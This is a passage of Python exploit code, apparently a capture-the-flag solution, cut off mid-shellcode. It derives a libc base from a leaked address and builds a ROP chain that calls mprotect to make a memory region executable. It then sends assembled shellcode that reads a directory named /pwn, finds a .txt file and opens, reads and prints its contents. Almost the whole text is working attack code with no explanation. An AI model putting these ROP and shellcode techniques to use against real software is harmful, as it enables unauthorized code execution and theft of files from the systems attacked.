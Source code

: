 ```python
dbg('leak')
base = leak - 0x875a0
mprotect = base + 0x11bb00
rsi = base + 0x001507db
rdx_p1 = base + 0x0011c371

payload = ''
payload += flat(rdi, 0xbeef0000000, rsi, 0x1000, rdx_p1, 7, 0xdeadbeef, mprotect, 0xbeef0000000+0x50)

buf = 0xbeef0000000 + 0x800
sc = ''
sc += asm('''
        xor rax, rax
        mov rdi, 0
        mov rsi, {}
        mov rdx, 0x100
        syscall

        mov rax, 257
        mov rdi, -100
        mov rsi, {}
        xor rdx, rdx
        xor r10, r10
        syscall

        mov rdi, rax
        mov rsi, {}
        mov rdx, 0x400
        mov rax, 0
        syscall

        mov rax, 1
        mov rdi, 1
        mov rsi, {}
        mov rdx, 0x400
        syscall

        xor rax, rax
        mov rdi, 0
        mov rsi, {}
        mov rdx, 0x1000
        syscall

'''.format(buf, buf, buf, buf, buf-0x800))

payload += sc
payload = payload.ljust(0x1000, '\x00')
r.send(payload)

r.send("/pwn\x00")
ret = r.recv(0x400).split('\x00')
for s in ret:
        if ".txt" in s:
                name = "/pwn/"+s[1:]
                break

sc = ''
sc += asm('''
        xor rax, rax
        mov rdi, 0
        mov rsi, {}
        mov rdx, 0x100
```